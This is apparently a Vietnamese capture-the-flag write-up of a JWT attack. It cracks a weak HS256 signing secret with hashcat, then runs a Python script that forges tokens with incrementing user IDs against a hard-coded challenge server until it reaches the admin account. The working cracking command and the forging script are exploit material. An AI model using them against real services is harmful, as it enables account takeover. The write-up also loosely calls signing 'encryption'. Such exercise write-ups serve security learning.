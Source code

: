 <h1>JWT Attack</h1>

Trước tiên, login vào tài khoản đã được đăng ký.

![](./img/1.png)

Để ý phần cookie trong http request, nhận thấy đây là JWT 

![](./img/2.png)

decode JWT ta có
```
header = {
    "typ": "JWT",
    "alg": "HS256"
}
payload = {
    "fresh": false,
    "iat": 1689958264,
    "jti": "a495f879-7075-4a39-a4b5-bd4e74322e0b",
    "type": "access",
    "sub": 6028,
    "nbf": 1689958264,
    "exp": 1689959164
}
```
Như vậy token được encrypted bởi <b>HS256</b>

Sau khi tạo vài tài khoản và submit nhiều lần, tôi nhận ra trường <b>sub</b> trong payload có giá trị không đổi đối với mỗi tài khoản và trong mọi phiên làm việc. Có thể server dựa vào trường này để xác định người dùng, có thể BruteForce trường này để lấy được <b>admin</b>.

Nhưng để thay đổi được token, ta cần biết <b>private key</b> của server.

```powershell
hashcat -a 0 -m 16500 eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJmcmVzaCI6ZmFsc2UsImlhdCI6MTY4OTk1ODI2NCwianRpIjoiYTQ5NWY4NzktNzA3NS00YTM5LWE0YjUtYmQ0ZTc0MzIyZTBiIiwidHlwZSI6ImFjY2VzcyIsInN1YiI6NjAyOCwibmJmIjoxNjg5OTU4MjY0LCJleHAiOjE2ODk5NTkxNjR9.l4iMKyKTQGDnuxHxdqoyxtJIF25Kyh7myJxw8EFUS5k /home/ngnisp/wordlist/jwt.secrets.list.txt
```
![](./img/3.png)

May mắn là private_key yếu nên nó đã bị tìm ra
```
private_key: this_is_a_dev_secret
```
Tiếp theo BruteForce trường <b>Sub</b> trong payload như đã nói ở trên, Encrypt nó vào gửi lên server. Mã 200 là đúng, 401 là sai.

```python
import requests
import jwt

burp0_url = "http://45.56.116.251:5050/profile"
burp0_headers = {"Cache-Control": "max-age=0", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.0.0 Safari/537.36 Edg/114.0.1823.82", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7", "Referer": "http://45.56.116.251:5050/login", "Accept-Encoding": "gzip, deflate", "Accept-Language": "vi,en-US;q=0.9,en;q=0.8", "Connection": "close"}

def create_jwt(payload, secret_key):
    header = {"typ": "JWT", "alg": "HS256"}
    jwt_token = jwt.encode(payload, secret_key, algorithm="HS256", headers=header)
    return jwt_token

for _ in range(10000):  
    payload_data = {
                    "fresh": False,
                    "iat": 1689960056,
                    "jti": "51156053-531f-4fe9-a133-ffaece1ef987",
                    "type": "access",
                    "sub": _,
                    "nbf": 1689960056,
                    "exp": 1689960956
                    }
    secret_key = "this_is_a_dev_secret"

    jwt_token = create_jwt(payload_data, secret_key)
    burp0_cookies = {"access_token_cookie": jwt_token}
    res = requests.get(burp0_url, headers=burp0_headers, cookies=burp0_cookies)
    print(res.status_code)
    if res.status_code == 200:
        print(f"[::]Found {jwt_token}")
```

### Giải thích code
Tăng giá trị của Sub từ 1->10000 và encrypt với private_key. Server Decrypt token và check nếu <b>sub = Giá trị của bất kể user nào</b> sẽ trả lại mã 200, và in ra token. 

Nhưng thật không ngờ chỉ đến request thứ 2, tức là <b>Sub = 2</b> đã có được admin. Biết thế đã không code scrupt :<

![](./img/4.png)

Đem token tìm được submit lại, lấy được flag:

![](./img/5.png)

```
Flag: BDSEC{m4k3_y0ur_53cr37_k3y_57r0n63r}
```